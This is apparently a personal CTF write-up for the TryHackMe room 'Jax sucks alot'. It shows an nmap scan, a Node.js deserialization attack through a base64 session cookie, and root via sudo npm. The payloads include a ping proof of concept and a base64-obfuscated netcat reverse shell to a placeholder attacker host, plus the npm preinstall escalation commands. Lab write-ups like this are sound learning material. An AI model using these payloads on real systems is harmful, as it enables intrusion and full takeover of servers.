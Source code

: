 ```yaml
---
title: "Jax sucks alot............."
date: 2025-02-16
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF Jax sucks alot
categories: [TryHackMe, Easy]
tags: [linux, node, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Jax sucks alot.............</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>In JavaScript everything is a terrible mistake.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/jason">https://tryhackme.com/room/jason</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Jax sucks alot..............  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.26.215
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-16 05:33 EST
  Nmap scan report for 10.10.26.215
  Host is up (0.058s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT   STATE SERVICE
  22/tcp open  ssh
  80/tcp open  http

  Nmap done: 1 IP address (1 host up) scanned in 21.24 seconds
```

From here I proceeded the analysis with port 80.

## Port 80 Analysis

The website displays an input field for subscribing to a newsletter. 

![Newsletter Subscription Page](/assets/img/tryhackme/Jason/thm_jason_1.jpg)

Upon inspecting the source code, I noticed that the input was converted and stored as a cookie. This cookie was added as a session cookie to every request. I checked the request, and it appeared to be a `base64` encoded string:

![Cookie inside request](/assets/img/tryhackme/Jason/thm_jason_2.jpg)

```bash
$ echo "eyJlbWFpbCI6InRlc3RAdGVzdC5kZSJ9" | base64 -d                                        
{"email":"test@test.de"} 
```

After some research, I came across information about Node.js deserialization attacks. Before attempting to get a reverse shell, I created a small proof of concept:
```bash
<@base64>{"email":"_$$ND_FUNC$$_function(){\n \t require('child_process').exec('ping -c 1 [attackerip]',function(error, stdout, stderr) { console.log(stdout) });\n }()"}</@base64>
```

This payload should send me an `icmp` packet upon execution:
```bash
$ sudo tcpdump -i tun0 icmp                     
  tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
  listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
  13:19:05.578402 IP 10.10.119.248 > [attackerip]: ICMP echo request, id 1, seq 1, length 64
  13:19:05.578413 IP [attackerip] > 10.10.119.248: ICMP echo reply, id 1, seq 1, length 64
```

Great! Now we can use this to gain a reverse shell. I started `penelope` and pressed option `p` to retrieve predefined payloads. By coping the penelope payload into the previous NodeJS deserialization attack, I was able to obtain a reverse shell:
```bash
@base64>{"email":"_$$ND_FUNC$$_function(){\n \t require('child_process').exec('echo -n cm0gL3RtcC9fO21rZmlmbyAvdG1wL187Y2F0IC90bXAvX3xzaCAyPiYxfG5jIGF0dGFja2VyaXAgNDQ0NCA+L3RtcC9fICYK|base64 -d|sh',function(error, stdout, stderr) { console.log(stdout) })
```

After receiving the reverse shell, I was able to retrieve the user flag::
```bash
dylan@jason:~$ cd /home/dylan/
dylan@jason:~$ cat user.txt 
	[removed]
```

## Privilege Escalation root

Next, I ran `sudo -l` and got the following output:
```bash
dylan@jason:~$ sudo -l
  Matching Defaults entries for dylan on jason:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User dylan may run the following commands on jason:
      (ALL) NOPASSWD: /usr/bin/npm *
```

A quick search on <a href="https://gtfobins.github.io/gtfobins/npm/#sudo">gftobins</a> provided all the information I needed:
```bash
dylan@jason:~$ TF=$(mktemp -d)
dylan@jason:~$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
dylan@jason:~$ sudo npm -C $TF --unsafe-perm i

> @ preinstall /tmp/tmp.oKtTgZ2Zvd
> /bin/sh

# whoami
	root
# cat /root/root.txt
	[removed]
```

solved! :)
